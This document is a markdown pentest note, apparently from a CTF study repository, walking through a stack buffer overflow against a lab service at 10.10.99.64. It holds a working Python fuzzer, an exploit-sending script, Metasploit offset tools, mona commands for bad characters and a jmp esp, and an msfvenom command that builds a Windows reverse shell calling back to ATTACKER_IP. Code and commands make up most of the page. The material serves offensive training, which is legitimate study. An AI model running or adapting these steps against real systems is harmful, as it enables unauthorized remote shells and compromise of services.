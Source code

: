 ```yaml
---
title: 3 - Buffer Overflow
summary: Gaining Access step – a note for Buffer Overflows.
description: Gaining Access step – a note for Buffer Overflows.
---
```


# Memory Architecture

---

## Memory

![killchain-buffer_overflow-architecture-memory.png](../../attachments/killchain-buffer_overflow-architecture-memory.png)
Source: TCM Security

## Stack

![killchain-buffer_overflow-architecture-stack.png](../../attachments/killchain-buffer_overflow-architecture-stack.png)
Source: TCM Security

# Basis

---

 > 
 > **<font color=red>python -c "print('A' \*</font> 40 <font color=red>+ '</font>\\xef\xbe\xad\xde<font color=red>')"</font>**</br>
 > Print payload with overflow and value to inject.

 > 
 > **<font color=red>cat</font> myPayloadFile <font color=red>- |</font> vulnerableBinary**</br>
 > Use `-` to hang after succefull buffer overflow. 

# THM Method

---

## 1 - Fuzzing

 > 
 > **<font color=red>1_fuzzer.py</font>**</br>

````py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.99.64"
port = 1337

timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

````

## 2 - Controlling EIP (Finding Offset)

### Method 1: Manual

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l</font> 3000**</br>
 > Create chars to find EIP (maki it 400 bytes longer than the string that crashed the server).

 > 
 > Take that string of chars and put it in "payload" variable in 2_exploit.py.

 > 
 > Re-run the program in Immunity.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

````py
import socket

ip = "10.10.99.64"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3 ..." # HERE !
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
````

 > 
 > Look at EIP Value (Immunity > Registers (in CPU Window))
 > ![exploit-buffer_overflow-eip_manual.png](../../attachments/exploit-buffer_overflow-eip_manual.png)

 > 
 > **<font color=red>/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l</font> 3000 <font color=red>-q</font> 386F4337**</br>
 > Return the exact offset.

 > 
 > Take that offset and put it in "offset" variable in 2_exploit.py.

 > 
 > Set "payload" variable to "" (empty).

 > 
 > Set "retn" variable to "BBBB" (EIP overwrite).

### Method 2: Mona

Immunity : !mona findmsp -distance 2400

→ EIP contains normal pattern : 0x6f43396e (offset 1978)

![exploit-buffer_overflow-eip_mona.png](../../attachments/exploit-buffer_overflow-eip_mona.png)

## 3 - Finding Bad characters

### Method 1: Manual

 > 
 > **<font color=red>!mona bytearray -b "</font>\\x00<font color=red>"</font>**</br>
 > In Immunity

 > 
 > <font color=red>
**3_gen_badchars.py**</font></br>

````py
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
````

 > 
 > Take output form `3_gen_badchars.py` and put il in "payload" variable in `2_exploit.py`.

 > 
 > **<font color=red>2_exploit.py</font>**</br>

 > 
 > Follow EIP in Immunity.
 > ![exploit-buffer_overflow-bad_chars_manual_1.png](../../attachments/exploit-buffer_overflow-bad_chars_manual_1.png)

 > 
 > Check if all chars are here in right order.
 > ![exploit-buffer_overflow-bad_chars_manual_2.png](../../attachments/exploit-buffer_overflow-bad_chars_manual_2.png)

 > 
 > Notes : 
 > 
 > * Bad chars will not necessarily be B0.
 > * When there are consecutive bad chars, the only bad is the first one (but we can remove them by precaution).

### Method 2: Mona

 > 
 > **<font color=red>!mona config -set workingfolder</font> c:\mona**</br>
 > Set where mona will save data.

 > 
 > **<font color=red>!mona bytearray -cpb</font> “\x00”**</br>
 > Generate Bytearray

 > 
 > **<font color=red>!mona compare -f</font> bytearray.bin <font color=red>-a</font> ESP-ADDR**</br>
 > Find bad chars.

![exploit-buffer_overflow-bad_chars_mona.png](../../attachments/exploit-buffer_overflow-bad_chars_mona.png)

Do it again adding bad chars :

 > 
 > **<font color=red>!mona bytearray -cpb</font> "\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Generate Byte array.

## 4 - Find Jump Point

### Method 1: Manual

 > 
 > Set "retn" variable to the jump point (backward because of little endian).
 > Ex :  0x01020304 -> "\x04\x03\x02\x01

### Method 2: Mona

 > 
 > **<font color=red>!mona jmp -r esp -cpb </font>"\x00\x07\x08\x2e\x2f\xa0\xa1"**</br>
 > Return all "jmp esp" (specify bad chars after -cpb).

![exploit-buffer_overflow-jump_point_mona.png](../../attachments/exploit-buffer_overflow-jump_point_mona.png)

## 5 - Generate Shellcode (MSFVNOM)


 > 
 > **<font color=red>msfvenom -p</font> windows/shell_reverse_tcp <font color=red>LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>EXITFUNC=thread -f</font> c <font color=red>-b "</font>\\x00\x07\x08\x2e\x2f\xa0\xa1<font color=red>"</font>**</br>
 > Gen Reverse Shell in Shellcode (specify bad chars).

#### Flags

 > 
 > **<font color=red>-b "</font>\\x00<font color=red>"</font>**</br>
 > Specify bad characters (always put at least null byte).
 > 
 > **<font color=red>-f</font> c**</br>
 > File Type (here it's c file).
 > 
 > **<font color=red>-a</font> x86**</br>
 > Architecture.
